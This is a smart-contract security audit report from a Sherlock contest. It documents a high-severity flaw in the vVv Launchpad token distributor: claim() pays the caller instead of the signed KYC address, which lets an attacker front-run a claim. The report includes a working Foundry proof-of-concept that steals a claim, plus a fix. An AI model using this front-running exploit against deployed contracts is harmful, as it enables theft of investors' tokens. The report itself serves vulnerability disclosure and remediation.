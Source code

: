# vVv Launchpad - Investments & Token distribution Report
vVv facilitates both seed & launchpad deals. This contest focusses on the contracts required for running these investments and distributing the tokens to the investors.

* **nSLOC**: 279
* **Contest details**: https://audits.sherlock.xyz/contests/647

## Disclaimer
This report contains the valid findings discovered by me (merlinboii). 

Severity Criteria: [Criteria for Issue Validity | Sherlock V2](https://docs.sherlock.xyz/audits/real-time-judging/judging)

---

## Findings

| ID | Description | Severity |
| :-: | - | :-: |
|[H-01](#h-01)| Attacker will steal claiming funds from legitimate KYC users |🍅|

---

## <a name="h-01">[H-01]</a> Attacker will steal claiming funds from legitimate KYC users

* **Severity**: High
* Source: [merlinboii - Attacker will steal claiming funds from legitimate KYC users](https://github.com/sherlock-audit/2024-11-vvv-exchange-update-judging/issues/91)

---

### Summary

The logic in the [`VVVVCTokenDistributor::claim()`](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L106-L145) **transfers the `projectToken` to the caller (`msg.sender`) instead of the intended `KYC address`**. This **enables an attacker to front-run the legitimate KYC user’s [`VVVVCTokenDistributor::claim()`](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L106-L145) transaction**, allowing the attacker to receive the claiming funds on behalf of the KYC address specified in the signature.

---

### Root Cause

In [VVVVCTokenDistributor.sol::L130-L136](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L130-L136), the logic claims the `projectToken` to the caller (`msg.sender`) instead of the `KYC address`. 

This root cause allow the attacker to front running the [`VVVVCTokenDistributor::claim()`](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L106-L145) call. 

This will steal the legitimate KYC user claiming funds and also block them to claim by that signature as it was used.

```solidity
File: vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol
106:     function claim(ClaimParams memory _params) public {
---
129:         // transfer tokens from each wallet to the caller
130:         for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
131:             projectToken.safeTransferFrom(
132:                 _params.projectTokenProxyWallets[i],
133:@>               msg.sender,    
134:                 _params.tokenAmountsToClaim[i]
135:             );
136:         }
```

---

### Internal pre-conditions

-

---

### External pre-conditions

As the [README](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/README.md#q-on-what-chains-are-the-smart-contracts-going-to-be-deployed) which is considered the **primary source of truth**, informs that the in-scope smart contracts will be deployed on both L1 and L2 chains:

> Q: On what chains are the smart contracts going to be deployed?
> Eth, base, bnb, avalanche, polkadot, arbitrum

This introduces the potential for front-running behavior.

---

### Attack Path

1. Alice do the KYC and put some investment tokens then she eligible to claim the `projectToken`
2. A trusted off-chain centralized system handles creating the claim signature for Alice that can claim `1000000e18` projectTokens
3. Alice want to claim her tokens
4. Stealer observes Alice's transaction, **front runs** and use that `Alice's claim params` to claim the Alice's claiming amount: `1000000e18`.
5. Alice's transaction is executed, since `nonce` is updated, Alice transaction reverts as [`InvalidNonce`](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L115-L117)
6. **Bob profits `1000000e18`** and **Alice loses `1000000e18` projectTokens**.

---

### Impact

KYC users who invest and are eligible to claim **lose their entire claiming amount during the claiming process**. The **attacker gains the full claiming amount** from legitimate KYC users.

---

### PoC

#### Setup
* Put the snippet below into the protocol test suite: `vvv-platform-smart-contracts/test/vc/VVVVCTokenDistributor.unit.t.sol` 
* Run test:
`forge test --match-test testClaimByAttacker -vvv`

#### Coded PoC
<details>
  <summary>Coded PoC</summary>

```solidity
    function testClaimByAttacker() public {
        // defind an attacker/stealer
        address stealer = makeAddr("Stealer");

        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        uint256 claimAmount = sampleTokenAmountsToClaim[0];
        thisTokenAmountsToClaim[0] = claimAmount;

        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            sampleKycAddress,   //@audit -> legitimate KYC user -> Alice
            thisProjectTokenProxyWallets,
            thisTokenAmountsToClaim
        );

        // attacker claim on behalf of the `sampleKycAddress`
        vm.startPrank(stealer);
        TokenDistributorInstance.claim(claimParams);
        vm.stopPrank();
        // ensuring that the attacker can steal the claimAmount
        assertTrue(ProjectTokenInstance.balanceOf(stealer) == claimAmount);

        // assume that Alice claiming tx is executed after
        vm.startPrank(sampleKycAddress);
        vm.expectRevert(VVVVCTokenDistributor.InvalidNonce.selector);
        TokenDistributorInstance.claim(claimParams);
        vm.stopPrank();
    }
```
</details>

#### Result
Results of running the test:
```bash
Ran 1 test for test/vc/VVVVCTokenDistributor.unit.t.sol:VVVVCTokenDistributorUnitTests
[PASS] testClaimByAttacker() (gas: 123095)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 9.00ms (2.11ms CPU time)

Ran 1 test suite in 168.51ms (9.00ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

---

### Mitigation

Update the transfer logic to transfer tokens to the signed KYC address.

```diff
File: vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol
106:     function claim(ClaimParams memory _params) public {
---
129:         // transfer tokens from each wallet to the caller
130:         for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
131:             projectToken.safeTransferFrom(
132:                 _params.projectTokenProxyWallets[i],
-133:                 msg.sender,   
+133:                 _params.kycAddress,   
134:                 _params.tokenAmountsToClaim[i]
135:             );
136:         }
```